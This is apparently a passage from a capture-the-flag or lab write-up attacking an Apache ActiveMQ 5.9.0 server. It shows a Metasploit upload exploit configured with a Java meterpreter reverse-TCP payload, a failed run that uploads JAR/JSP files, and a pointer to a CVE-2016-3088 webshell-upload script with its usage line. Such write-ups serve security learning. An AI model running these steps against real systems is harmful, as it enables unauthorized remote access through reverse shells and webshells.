 ```
   RHOSTS                      	yes   	The target host(s), range CIDR identifier, or hosts fil
                                         	e with syntax 'file:<path>'
   RPORT      	8161         	yes   	The target port (TCP)
   SSL        	false        	no    	Negotiate SSL/TLS for outgoing connections
   VHOST                       	no    	HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  [My IP]    	yes   	The listen address (an interface may be specified)
   LPORT  4444         	yes   	The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/apache_activemq_upload_jsp) >
```


Metasploit is fired up, we enter the target IP address and we enter the local port to bind to, 54321. We hope to get a meterpreter shell.

```
msf6 exploit(multi/http/apache_activemq_upload_jsp) > exploit

[*] Started reverse TCP handler on [target]:54321
[*] Uploading http://[target]:8161/opt/apache-activemq-5.9.0/webapps/api/jzmFvWBFBvz.jar
[*] Uploading http://[target]:8161/opt/apache-activemq-5.9.0/webapps/api/jzmFvWBFBvz.jsp
[!] This exploit may require manual cleanup of '/opt/apache-activemq-5.9.0/webapps/api/jzmFvWBFBvz.jar' on the target
[!] This exploit may require manual cleanup of '/opt/apache-activemq-5.9.0/webapps/api/jzmFvWBFBvz.jsp' on the target
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/apache_activemq_upload_jsp) >
```

Unfortunately this did not seem to work. After hunting around online a bit, I found [this repo](https://github.com/Ma1Dong/ActiveMQ_putshell-CVE-2016-3088) which exploits a similar vulnerability.

This exploit uploads a webshell to ```/admin/guo.jsp``` on the broker’s web interface.

```
└─$ cat README.md    	 
# ActiveMQ_putshell-CVE-2016-3088-
ActiveMQ_putshell直接获取webshell

#Usage：
python3 ActiveMQ_putshell.py -u url
![image](https://github.com/gsheller/ActiveMQ_putshell-CVE-2016-3088/blob/master/CVE-2016-3088.jpg?raw=true)
```
